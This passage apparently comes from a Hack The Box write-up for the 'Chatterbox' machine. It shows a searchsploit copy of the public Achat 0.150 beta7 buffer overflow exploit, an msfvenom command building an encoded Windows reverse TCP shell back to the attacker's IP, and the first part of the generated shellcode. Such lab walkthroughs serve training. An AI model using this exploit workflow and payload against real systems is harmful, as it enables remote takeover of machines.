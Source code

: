 ```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Chatterbox]
└─$ searchsploit -m 36025
  Exploit: Achat 0.150 beta7 - Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/36025
     Path: /usr/share/exploitdb/exploits/windows/remote/36025.py
    Codes: CVE-2015-1578, CVE-2015-1577, OSVDB-118206, OSVDB-118104
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (637)
Copied to: /home/emvee/Documents/HTB/Chatterbox/36025.py

┌──(emvee㉿kali)-[~/Documents/HTB/Chatterbox]
└─$ code 36025.py 
┏━(Message from Kali developers)
┃ code is not the binary you may be expecting.
┃ You are looking for \"code-oss\"
┃ Starting code-oss for you...
┗━

```
Within the exploit we can see how we should generate our payload. We only have to adjust a few things like the payload the lhost and lport.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Chatterbox]
└─$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp lhost=10.10.14.71 lport=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3822 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x39\x6c\x69\x58\x61\x72\x79\x70"
buf += b"\x59\x70\x49\x70\x33\x30\x34\x49\x79\x55\x4c\x71"
buf += b"\x35\x70\x4f\x74\x34\x4b\x52\x30\x4c\x70\x32\x6b"
buf += b"\x50\x52\x6a\x6c\x34\x4b\x51\x42\x4a\x74\x34\x4b"
buf += b"\x63\x42\x4f\x38\x4a\x6f\x56\x57\x6f\x5a\x6f\x36"
buf += b"\x4c\x71\x6b\x4f\x66\x4c\x6f\x4c\x71\x51\x51\x6c"
buf += b"\x49\x72\x4e\x4c\x4b\x70\x77\x51\x66\x6f\x4c\x4d"
buf += b"\x6b\x51\x45\x77\x6a\x42\x6b\x42\x50\x52\x6f\x67"
buf += b"\x62\x6b\x51\x42\x4e\x30\x64\x4b\x70\x4a\x4f\x4c"
buf += b"\x62\x6b\x70\x4c\x6e\x31\x34\x38\x39\x53\x4d\x78"
buf += b"\x49\x71\x46\x71\x6f\x61\x64\x4b\x50\x59\x4d\x50"
buf += b"\x59\x71\x69\x43\x34\x4b\x30\x49\x6c\x58\x57\x73"
buf += b"\x6c\x7a\x4f\x59\x44\x4b\x4f\x44\x62\x6b\x4a\x61"
buf += b"\x57\x66\x70\x31\x4b\x4f\x54\x6c\x67\x51\x36\x6f"
buf += b"\x5a\x6d\x6d\x31\x35\x77\x6e\x58\x69\x50\x62\x55"
buf += b"\x6a\x56\x4a\x63\x71\x6d\x7a\x58\x4d\x6b\x53\x4d"
```